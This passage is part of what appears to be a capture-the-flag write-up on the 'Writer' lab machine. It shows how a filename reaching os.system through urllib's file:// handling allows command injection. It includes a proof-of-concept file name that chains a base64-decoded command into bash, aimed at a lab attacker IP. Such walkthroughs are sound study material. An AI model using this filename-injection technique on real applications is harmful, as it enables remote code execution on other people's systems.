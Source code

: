                             cursor = connector.cursor()
                            cursor.execute("UPDATE stories SET image = %(image)s WHERE id = %(id)s", {'image':image, 'id':id})
                            result = connector.commit()



I want to get to that `os.system` call on the sixth line above.
Unfortunately, to do so, there are hurdles.

First, the `urllib.request.urlretrieve(image_url)` must not error, which
means the url must be valid and not throw an exception.

I was a bit confused by all the renaming, until I opened a Python
terminal and used `urllib.request.urlretrieve` myself:



    >>> local_filename, headers = urllib.request.urlretrieve('http://10.10.14.6/test.jpg')
    >>> local_filename
    '/tmp/tmpa7gaq4yh'



So it is stored in `/tmp`, and with no extension. That's why the code is
adding `.jpg` to the end. However, there's another kind of valid url,
and this time it preserves the filename:



    >>> local_filename, headers = urllib.request.urlretrieve('file:///home/oxdf/test.jpg')
    >>> local_filename
    '/home/oxdf/test.jpg'



So if I can have it point to an existing file, and that filename has
command injection in it, I should be able to get execution.

#### RCE POC

I'll create a file with the following name:



    oxdf@parrot$ echo 'ping -c 1 10.10.14.6' | base64 
    cGluZyAtYyAxIDEwLjEwLjE0LjYK
    oxdf@parrot$ touch '0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;' 



I'll upload this to Writer using the form, and I can see it on the
server:

![](/img/image-20211201211453785.png)

I'll send the POST to repeater, and clear out the `image` section, and
fill in the `image_url` section:

![](/img/image-20211201211604634.png)

When I send that, it will be passed to `urllib.request.urlretrieve`,
which will return `local_filename` of
`/var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;`.
The string that gets passed into `os.system` will be:
